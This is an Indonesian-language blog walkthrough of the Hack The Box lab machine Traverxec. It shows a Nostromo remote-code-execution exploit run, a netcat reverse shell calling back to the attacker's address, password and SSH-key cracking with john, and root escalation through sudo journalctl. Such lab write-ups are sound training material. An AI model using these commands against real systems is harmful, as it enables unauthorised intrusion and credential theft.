 ```yaml
---
layout: post
title:  "Traverxec – [Hack The Box] Walkthrough"
date:   2020-09-06 13:35:57 +0700
categories: [security, boot2root]
tags: [boot2root]
---
```

![traverxec_banner](/assets/img/traverxec/banner.png "Traverxec Banner")
## Hack The Box?

Berhubung ini adalah artikel pertama yang saya buat di blog ini, maka saya akan sedikit menjelaskan dulu apa itu Hack The Box.

> Hack The Box is an online platform allowing you to test your penetration testing skills and exchange ideas and methodologies with thousands of people in the security field.

Singkatnya, HTB adalah online platform yang memungkinkan kita untuk menguji kemampuan penetration testing pada lab yang telah disediakan dan akan selalu di perbaharui.  
Selain menyediakan lab untuk meretas machine, HTB juga mempunyai beberapa tantangan lainnya, contohnya Capture The Flag (CTF).  
Nah kali ini saya akan membahas salah satu machine yang bernama Traverxec.

## Machine Details
- OS : Linux
- Difficulty : Easy
- Points : 20
- Release : 16 Nov 2019
- IP : 10.10.10.165

### Reconnaisance & Enumeration
Pertama lakukan enumerasi menggunakan nmap untuk mendapatkan informasi lebih lanjut tentang service yang tersedia pada machine ini.

```bash
nmap -sV -sC 10.10.10.165
```

Setelah menunggu, berikut adalah hasil yang didapatkan dari nmap.

![walk-1](/assets/img/traverxec/1.png)

Terdapat beberapa service yang terbuka yaitu SSH dan HTTP dan menggunakan Nostromo v.1.9.6 sebagai web servernya. Saat web dibuka ternyata hanya menampilkan sebuah website statis.

![walk-2](/assets/img/traverxec/2.png)

Setelah mencari tau lebih lanjut tentang nostromo 1.9.6 ternyata server yang digunakan mempunyai bug Directory Traversal yang bisa mengarah ke serangan RCE via crafted HTTP request.  
Referensi : [CVE-2019-16278](https://www.cvedetails.com/cve/CVE-2019-16278/).

### Gaining Access
Kebetulan sudah ada exploit yang dibuat oleh seorang pentester yang bisa di dapatkan di  
[exploit-db nostromo 1.9.6 – Remote Code Execution](https://www.exploit-db.com/exploits/47837). Langsung saja kita jalankan exploit tersebut.

```bash
python cve2019_16278.py 10.10.10.165 80 "uname -a"
```

![walk-3](/assets/img/traverxec/3.png)

Terlihat bahwa server me-response command “uname -a” yang di berikan. Untuk mempermudah maka kita akan lakukan reverse shell ke server tersebut. Pertama listen netcat di local.

```bash
nc -lvp 1131
```

Lalu lakukan reverse shell ke server

```bash
python cve2019_16278.py 10.10.10.165 80 "/bin/nc.traditional -e /bin/sh 10.10.14.76 1131"
```

![walk-4](/assets/img/traverxec/4.png)

Shell sudah terkoneksi, lalu spawn pty shell menggunakan python agar bash lebih enak dilihat

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Sesuai dengan soalnya, pertama kita harus mendapatkan flag user (user.txt) yang terdapat di direktori /home/{user}/

![walk-5](/assets/img/traverxec/5.png)

Namun saat membuka direktorinya ternyata kita tidak mempunyai akses ke direktori tersebut, terpaksa harus mencari cara lain agar bisa mengakses flag tersebut.

![walk-6](/assets/img/traverxec/6.png)

Setelah mencari cari , ditemukan file **.htpasswd** dan **nhttpd.conf** nya di direktori /var/www/nostromo/conf

![walk-7](/assets/img/traverxec/7.png)

Crack htpasswd tersebut menggunakan **john** dengan wordlist **rockyou.txt** dan didapatkan plaintext dari passwordnya si david, yaitu :
**Nowonly4me**

![walk-8](/assets/img/traverxec/8.png)

Lanjut cek isi dari nhttpd.conf nya, dan ditemukan HOMDIRS di /home/public_www dan setelah di cek isinya terdapat ‘protected-file-area’

![walk-9](/assets/img/traverxec/9.png)

![walk-10](/assets/img/traverxec/10.png)

Didalam folder tersebut berisi backup-ssh yang mungkin bisa dipakai untuk login ke ssh target

![walk-11](/assets/img/traverxec/11.png)

Untuk mendapatkan file tersebut ternyata kita bisa melakukan cara lain. Jadi rencana nya nanti kita akan membuat file berdasarkan base64 yang telah di encode tadi lalu di decode kembali agar file nya kembali seperti semula.  
Referensi : [Gzip Base64 Encode](https://stackoverflow.com/questions/42459909/gzip-base64-encode-and-decode-string-on-both-linux-and-windows)

```bash
cat backup-ssh-identity-files.tgz | base64 –w0
```

![walk-12](/assets/img/traverxec/12.png)

Buat file yang berisi base64 tersebut dan men-decode nya seperti semula

```bash
cat encoded_ssh.txt | base64 -d > backup-ssh-identity-files.tgz
```

![walk-13](/assets/img/traverxec/13.png)

Terdapat beberapa file ssh didalam zip, namun key tersebut menggunakan passphare . Untuk crack passphare dari id_rsa tersebut kita bisa menggunakan john. Namun id_rsa harus dirubah menjadi hash terlebih dahulu menggunakan ssh2john.

```bash
python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
```

Lalu crack passphare nya menggunakan wordlist rockyou.txt

```bash
john id_rsa.hash --wordlist=/home/bio/netsec/wordlists/rockyou.txt
```

![walk-14](/assets/img/traverxec/14.png)

Passphare berhasil di dapatkan :  
**hunter** (id_rsa)  
Langsung saja connect ke SSH menggunakan key dan passphare yang sudah di dapatkan.

![walk-15](/assets/img/traverxec/15.png)

Akhirnya, kita berhasil login ke dalam machine tersebut sebagai david, maka flag user berhasil di dapatkan.

![walk-16](/assets/img/traverxec/16.png)

### Privilege Escalation

Nah, sekarang saatnya untuk mendapatkan flag root **(root.txt)** nya yang berada di **/root/**.  
Setelah melihat isi direktori home nya si david, terdapat folder bin yang berisi file script yang sepertinya untuk melihat status dari server webnya.

![walk-17](/assets/img/traverxec/17.png)

Setelah mencari informasi ternyata **journalctl** bisa di eksploitasi, ketika ukuran layar terminal dikecilkan maka output dari file tidak akan tampil seutuhnya dan otomatis menjalankan fungsi/command **“less”** yang bisa digunakan untuk melakukan command didalam shell.

Referensi :
- [GTFOB Less](https://gtfobins.github.io/gtfobins/less/)
- [GTFOB Journalctl](https://gtfobins.github.io/gtfobins/journalctl/)

Karna **journalctl** tadi dijalankan langsung menggunakan sudo (/usr/bin/sudo) maka **journalctl** mempunyai permission dari superuser.

![walk-18](/assets/img/traverxec/18.png)

Akhirnya akses root pun berhasil kita dapatkan, dan selesailah misi kita pada kali ini.

## References
- [CVE-2019-16278](https://www.cvedetails.com/cve/CVE-2019-16278/)
- [Exploit-db nostromo 1.9.6 – Remote Code Execution](https://www.exploit-db.com/exploits/47837)
- [Gzip Base64 Encode](https://stackoverflow.com/questions/42459909/gzip-base64-encode-and-decode-string-on-both-linux-and-windows)
- [GTFOB Less](https://gtfobins.github.io/gtfobins/less/)
- [GTFOB Journalctl](https://gtfobins.github.io/gtfobins/journalctl/)

























